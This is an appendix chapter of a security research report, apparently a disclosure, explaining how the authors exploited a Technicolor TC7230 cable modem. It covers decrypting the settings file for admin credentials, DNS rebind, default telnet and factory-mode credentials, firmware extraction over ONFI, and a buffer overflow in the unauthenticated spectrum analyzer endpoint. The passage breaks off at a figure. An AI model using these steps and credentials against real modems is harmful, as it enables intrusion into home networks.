\chapter{Modem-Specific Knowledge}
\label{app:howto}
This chapter explains techniques used to obtain the information in the report.
It is intended to assist other people in extending \exploitname{} to other modems, than those included in \cref{app:ExploredRouters}, by showing the specific process of creating the exploit on a specific modem.
The chapter will also elaborate on how the exploited can be \textit{leveraged} differently on specific modems.

\section{Technicolor TC7230}
\label{sec:technicolorTC7230}
Technicolor TC72300 was the first modem to be exploited, and is therefore the most thoroughly covered by examples of \exploitname{}.

\subsection{User Frontend Vulnerabilities}
\label{subsec:userFrontendVulnerabilities}
The discovery of \exploitname{} started when the endpoint \mono{192.168.87.1/goform/system/GatewaySettings.bin} was discovered on the modem.
Although the file was technically encrypted, it could be decrypted with default parameters in the bcm2cfg\footnote{BCM2 Utils can be found at \url{https://github.com/jclehner/bcm2-utils}}.
The file contained information on modem settings, connected devices through DHCP, WiFi passwords, and most importantly default admin credentials.
The modem usually ships with unique user credentials, however the default admin credentials from the gateway settings file, worked flawlessly as well.
The ISP which shipped the modem had set the default credentials to \enquote{<ISP\_name>:admin}.
If it had not been changed by the ISP it would have been \enquote{admin:admin}.

After this initial discovery, the DNS rebind vulnerability described in \cref{cha:dns} was found.
This meant that with a user clicking on a link, could be used to change and change settings available in the frontend.

\subsection{Exploring Telnet}
A port scan of the modem \footnote{\mono{\$ nmap 192.168.87.0/24}} revealed a telnet server.
Default credentials, \enquote{root:broadcom}, for the telnet server, was found with a web search\footnote{Article describing the telnet server running on Technicolor modems: \url{https://www.serializing.me/2018/06/03/rooting-the-technicolor-7210/}}.
With access to the user interface, it was possible to open port 23 for the modem IP, exposing the telnet server to the internet and enabling remote root access to a linux media server running on the modem.
This media server is running separate to the cable modem itself, and is a linux machine connected to the network through DHCP like any other computer. However this meant that we had a device on the network we could consistently gain root access to externally.
The IP can vary but it can be found in GatewaySettings.bin (see \cref{subsec:userFrontendVulnerabilities}) like any other device.

By probing around the operating system through the telnet, it was discovered that the media server and the cable modem itself shared both ONFI and SPI.
Additionally, the SNMP connection is open while the modem is not online, making it possible to establish a serial connection.
Several attempts at extracting the firmware of the cable modem via the Linux system, was thwarted by race conditions, and another method was employed.

\subsection{Opening the Modem}
Since both the firmware and the serial connection was needed, it was decided to attack the modem physically.
Both the SPI and ONFI flash can be seen in \cref{fig:physicalModem} along with the easily accessible serial output port.
With the serial connection established to the cable modem, an interesting function called \mono{\textbf{allow\_config}} was found.
This enables a factory mode, which opened a telnet server to the eCos system with default credentials \enquote{askey:askey}.
Running \mono{\textbf{allow\_config}} remotely, then became the target.

\begin{figure}
  
\includegraphics[width=0.475\textwidth]{graphics/spi}
  \hfill
  
\includegraphics[width=0.475\textwidth]{graphics/nand}
  \caption{Front and back side of the board}
  \label{fig:physicalModem}
\end{figure}

\subsection{Exploiting the Firmware}
An ESP32 was used to bitbang the cable modem firmware from the ONFI.
Running \mono{binwalk -l} revealed that the firmware was LZMA compressed, and the github of Broadcom showed that the LZMA compression was further wrapped in their own format called ProgramStore\footnote{\url{https://github.com/Broadcom/aeolus/tree/master/ProgramStore}}.

As can be seen in \cref{fig:programStore}, the ProgramStore format includes a load address (\mono{\textbf{0x80004000}} just before the file name), which enabled loading the firmware into a reverse engineering tool\footnote{Binary Ninja, found at \url{https://binary.ninja/}}.
As expected, the firmware was stripped of any debug information and function names.
Starting from the bottom up with functions not calling other functions, and those most often used by others, libc was isolated.
These were recognizable, since they stay similar across architectures.
With these pieces, other functions began making more sense.

\begin{figure}
  \centering
  
\includegraphics[scale=0.1]{graphics/nooobi}
  \caption{ProgramStore format}
  \label{fig:programStore}
\end{figure}

About a thousand functions later, top-level calls used by the web-interfaces or dealing with JSON parameters, began to appear.
At this level the buffer overflow vulnerability in the spectrum analyzers JSON reader was discovered.
Tests on the spectrum analyzer endpoint showed no password protection and no checks against requests made via DNS rebind.
The interface of the spectrum analyzer can be seen in \cref{fig:spectrumAnalyserInterface}.

\begin{figure}
